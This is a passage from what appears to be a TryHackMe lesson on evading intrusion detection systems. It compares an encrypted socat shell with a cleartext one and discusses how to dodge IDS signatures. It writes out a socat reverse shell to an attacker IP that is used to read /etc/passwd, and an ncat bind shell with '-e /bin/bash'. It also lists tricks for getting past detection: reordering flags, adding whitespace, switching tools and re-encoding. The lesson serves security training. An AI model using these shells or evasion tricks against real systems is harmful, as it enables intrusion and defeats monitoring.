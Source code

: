 ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/3352df7b863f48cfaf0aee8f308e95a9.png)  

As you can tell, it is not possible to make sense of the commands or data being exchanged. To better see the value of the added layer of encryption, we will compare this with an equivalentÂ `socat`Â connection that does not use encryption.

1. On the attackerâ€™s system, we runÂ `socat -d -d TCP-LISTEN:4443,fork STDOUT`.
2. On the victimâ€™s machine, we runÂ `socat TCP:10.20.30.129:4443 EXEC:/bin/bash`.
3. Back on the attackerâ€™s system, we typeÂ `cat /etc/passwd`Â and hit Enter/Return.

Because no encryption was used, capturing the traffic exchanged between the two systems will expose the commands, and the traffic exchanged. In the following screenshot, we can see the command sent by the attacker.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/08f8e9b8cdae4878dab23cbb57dfbbe2.png)  

Furthermore, it is a trivial task to follow theÂ TCPÂ stream as it is in cleartext and learn everything exchanged between the attacker and the target system. The screenshot below uses the â€œFollowÂ TCPÂ Streamâ€ option from Wireshark.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/40f0e2f428db90b8b57d708d77eae99c.png)  

### Modify the data

Consider the simple case where you want to use Ncat to create a bind shell. The following commandÂ `ncat -lvnp 1234 -e /bin/bash`Â tellsÂ `ncat`Â to listen onÂ TCPÂ port 1234 and bind Bash shell to it. If you want to detect packets containing such commands, you need to think of something specific to match the signature but not too specific.

- Scanning forÂ `ncat -lvnp`Â can be easily evaded by changing the order of the flags.
- On the other hand, inspecting the payload forÂ `ncat -`Â can be evaded by adding an extra white space, such asÂ `ncatÂ  -`Â which would still run correctly on the target system.
- If theÂ IDSÂ is looking forÂ `ncat`, then simple changes to the original command wonâ€™t evade detection. We need to consider more sophisticated approaches depending on the target system/application. One option would be to use a different command such asÂ `nc`Â orÂ `socat`. Alternatively, you can consider a different encoding if the target system can process it properly.

